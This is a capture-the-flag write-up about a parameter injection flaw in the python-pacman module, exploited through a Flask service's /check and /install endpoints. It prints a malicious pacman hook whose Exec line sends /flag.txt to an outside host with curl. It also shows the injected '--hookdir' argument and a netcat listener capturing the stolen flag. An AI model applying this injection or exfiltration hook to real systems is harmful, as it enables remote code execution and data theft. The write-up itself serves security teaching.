 # spoiler: this is the solution

The problem was a parameter injection vulnerabilty in the python-pacman module [(before it got patched by #1)](https://github.com/peakwinter/python-pacman/pull/1)

That's the `install` function to install a package with pacman ([source](https://github.com/peakwinter/python-pacman/blob/1320f51058780d7654360831aa11a33c53989edc/pacman.py#L9)):  
```python
def install(packages, needed=True):
    # Install package(s)
    s = pacman("-S", packages, ["--needed" if needed else None])
    if s["code"] != 0:
        raise Exception("Failed to install: {0}".format(s["stderr"]))
```

The called `pacman` function looks like ([source](https://github.com/peakwinter/python-pacman/blob/1320f51058780d7654360831aa11a33c53989edc/pacman.py#L174)):
```python
def pacman(flags, pkgs=[], eflgs=[]):
    # Subprocess wrapper, get all data
    if not pkgs:
        cmd = ["pacman", "--noconfirm", flags]
    elif type(pkgs) == list:
        cmd = ["pacman", "--noconfirm", flags]
        cmd += pkgs
    else:
        cmd = ["pacman", "--noconfirm", flags, pkgs]
    if eflgs and any(eflgs):
        eflgs = [x for x in eflgs if x]
        cmd += eflgs
    p = subprocess.Popen(cmd, stderr=subprocess.PIPE, stdout=subprocess.PIPE)
    data = p.communicate()
    data = {"code": p.returncode, "stdout": data[0].decode(),
            "stderr": data[1].rstrip(b'\n').decode()}
    return data
```

Our application uses it the following way:

```python
@app.route("/install", methods=['GET', 'POST'])
@check_json('package')
def install():
    package = request.get_json(force=True)['package']
    pacman.install(package)
    return jsonify({'status': 'OK'})
```

As we use json we can send `package` as a list instead of a string. This will allow us to inject something in the `subprocess.Popen` call. It does not allow us to inject arbitrary commands. But it allow us to inject some command line parameters. `pacman` allows us to run hooks after/before installing a package. This is how we will get code exection. Therefore, we need to upload a file to the server. Therefore we can exploit the `/check` api backend with a little trick.

```python
@app.route("/check", methods=['GET', 'POST'])
@check_json('name', 'content')
def checksum():
    f_name = request.get_json(force=True)['name']
    f_content = request.get_json(force=True)['content']
    with open(tmp_dir + f_name.replace("..", ""), "wb") as f:
        f.write(b64decode(f_content.encode()))
    stdout = check_output("/usr/bin/namcap -e checksums,filenames {}{}".format(tmp_dir, quote(f_name)), shell=True)
    remove(tmp_dir + f_name.replace("..", ""))
    return jsonify({'output': stdout.decode()})
```

1) Upload a file
    - call /check with the following parameters:
        - name: -d.hook
        - content:
            ```
            [Trigger]
            Operation = Upgrade
            Operation = Install
            Operation = Remove
            Type = Package
            Target = *

            [Action]
            Description = Cleaning pacman cache...
            When = PostTransaction
            Exec = /bin/bash -c "curl --upload-file /flag.txt http://192.168.10.70:5001"
            ```  
    - What will happen is:
        - our pacman hook will be uploaded to '/tmp/pacman/-d.hook'
        - `/usr/bin/namcap -e checksums,filenames /tmp/pacman/-d.hook` will be executed and fails because it sees a `-d` (parses it as option)
        - the python call `check_output` will throw an exception an exception because `/usr/bin/namcap` exited with a non-zero value
    - the call to /check will give you a 500. But the file stays on the server
2) Install a package and get code execution using a pacman hook with our uploaded file
    - call the `/install` endpoint with the following parameter `package`
        - package: ["--hookdir", "/tmp/pacman/", "wget"]
    - this will install the package wget
    - `pacman` will use /tmp/pacman as hookdir (only files ending with .hook are used)
    - WIN.



## exploit.py
```bash
kmille@linbox pacman-api master % python exploit.py
Testing /info
info works
Testing /install
install works
Testing /remove
remove works
Testing /install
install works
Testing /check
check works
Uploaded hook
Let's get code execution
Testing /remove
remove works
```

```bash
kmille@linbox pacman-api master % nc -lvp 5001
Listening on license.sublimehq.com 5001
Connection received on 172.19.0.2 56558
PUT /flag.txt HTTP/1.1
Host: 192.168.10.70:5001
User-Agent: curl/7.69.1
Accept: */*
Content-Length: 20
Expect: 100-continue

MRMCD{4rch 15 b357}

```

